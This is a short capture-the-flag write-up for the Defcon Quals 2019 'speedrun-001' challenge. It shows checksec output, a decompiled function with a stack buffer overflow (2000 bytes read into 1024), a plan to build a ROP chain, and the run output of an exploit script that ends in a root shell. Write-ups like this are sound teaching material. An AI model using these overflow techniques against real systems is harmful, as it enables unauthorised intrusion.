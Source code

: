 # Defcon Quals 2019 speedrun-001

Looking over ```checksec```:

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

There is no ```canary``` and ```PIE``` is disabled. Great, with ```ROPgadget``` we can easily craft a ropchain!
If we search for the strings that are outtputed to our screen, we can find the following function:

```c
void FUN_00400b60(void)

{
  undefined local_408 [1024];
  
  puts("Any last words?");
  read(0,local_408,2000);
  printf("This will be the last thing that you say: %s\n",local_408);
  return;
}
```

Obvious buffer overflow, nothing spectacular. One thing to note is that we have to send exactly 2000 bytes because of ```read()```, so some padding at the end will be necessary.

```bash
[root@pwn:~/dcquals19_speedrun1]$ python expl.py 
[+] Starting local process './speedrun-001': pid 19268
[*] Switching to interactive mode
Hello brave new challenger
Any last words?
This will be the last thing that you say: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAABBBBBBBBA
$                                          whoami
root
```